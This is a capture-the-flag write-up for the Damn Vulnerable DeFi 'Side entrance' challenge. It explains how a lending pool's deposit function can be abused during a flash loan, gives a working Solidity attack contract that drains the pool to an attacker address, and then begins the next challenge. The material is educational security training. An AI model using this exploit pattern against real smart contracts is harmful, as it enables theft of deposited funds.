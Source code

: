 

- - -
## CTF name: Damn Vulnerable DeFi
### Challenge name: Side entrance
### Challenge description:
    A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

    This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

    You must take all ETH from the lending pool.

- - -

In this challenge, we must take all ETH from the lending pool. __SideEntranceLenderPool contract__ provides flashloan just like previous contracts. This pool contract also contains __deposit()__ and __withdraw()__ functions as well. The vulnerability comes from __deposit()__ function. It increases balance of `msg.sender`, however, it does not check if the balance of pool has really increased. 

There is a line of code in __flashLoan()__:  `IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();`. This line of code allows `msg.sender` to execute __execute()__ function from itself. We can call __deposit()__ function during flash loan to increase balance of ourselves, and we can withdraw.

Here is attack contract:

```soildity
contract FlashLoanEtherReceiver {
    function execute() external payable {
        SideEntranceLenderPool(msg.sender).deposit{value: msg.value}();
    }

    function attackSideEntranceLenderPool(SideEntranceLenderPool pool, address attacker) public {
        pool.flashLoan(address(pool).balance);
        pool.withdraw();
        payable(attacker).transfer(address(this).balance);
    }

    receive() external payable{}
}
```

By calling, attackSideEntranceLenderPool, we execute flashLoan, and during flashLoan, it will execute __execute()__ function from attack contract which will deposit flash loan amount. Then we withdraw from the pool and send stolen ETH to attacker.


- - -
## CTF name: Damn Vulnerable DeFi
### Challenge name: The rewarder
### Challenge description:
    There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.
